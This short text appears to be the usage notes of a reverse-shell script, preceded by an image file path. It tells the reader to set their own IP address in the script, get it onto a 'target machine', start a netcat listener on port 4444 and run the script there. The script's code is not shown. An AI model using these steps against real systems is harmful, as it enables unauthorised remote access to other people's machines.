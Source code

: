 Installation/usage:
  modify line 6 to include your ip address
  get the script onto the target machine
  start a netcat instance to listen using 
    nc -lnvp 4444
  run the script on the target machine
